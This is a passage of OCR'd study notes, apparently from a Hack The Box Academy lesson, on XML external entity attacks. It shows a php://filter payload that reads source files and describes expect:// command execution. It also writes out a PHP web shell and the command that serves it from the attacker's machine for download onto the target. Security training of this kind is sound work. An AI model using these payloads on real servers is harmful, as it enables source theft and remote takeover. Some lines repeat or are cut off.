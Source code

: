     Luckily, PHP provides wrapper filters that allow us to base64 encode  
    certain resources 'including files', in which case the final base64  
    output should not break the XML format. To do so, instead of using `file://` as our reference, we will use PHP's `php://filter/` wrapper. With this filter, we can specify the `convert.base64-encode` encoder as our filter, and then add an input resource (e.g. `resource=index.php`), as follows:
    
    Code: xml
    
    ```
    <!DOCTYPE email [
      <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
    ]>
    ```
    
    With that, we can send our request, and we will get the base64 encoded string of the `index.php` file:
    
    With that, we can send our request, and we will get the base64 encoded string of the `index.php` file:
    
    [![](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_filter.jpg)](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_filter.jpg)
    
    We can select the base64 string, click on Burp's Inspector tab (on  
    the right pane), and it will show us the decoded file. For more on PHP  
    filters, you can refer to the [File Inclusion / Directory Traversal](https://academy.hackthebox.com/module/details/23) module.
    
    `This trick only works with PHP web applications.` The next section will discuss a more advanced method for reading source code, which should work with any web framework.
    
      
    
      
    
    n addition to reading local files, we may be able to gain code  
    execution over the remote server. The easiest method would be to look  
    for `ssh` keys, or attempt to utilize a hash stealing trick  
    in Windows-based web applications, by making a call to our server. If  
    these do not work, we may still be able to execute commands on PHP-based  
    web applications through the `PHP://expect` filter, though this requires the PHP `expect` module to be installed and enabled.
    
    If the XXE directly prints its output 'as shown in this section', then we can execute basic commands as `expect://id`,  
    and the page should print the command output. However, if we did not  
    have access to the output, or needed to execute a more complicated  
    command 'e.g. reverse shell', then the XML syntax may break and the  
    command may not execute.
    
    The most efficient method to turn XXE into RCE is by fetching a web  
    shell from our server and writing it to the web app, and then we can  
    interact with it to execute commands. To do so, we can start by writing a  
    basic PHP web shell and starting a python web server, as follows:
    
    ```
    KareemAlsadeq@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.phpKareemAlsadeq@htb[/htb]$ sudo python3 -m http.server 80
    ```
    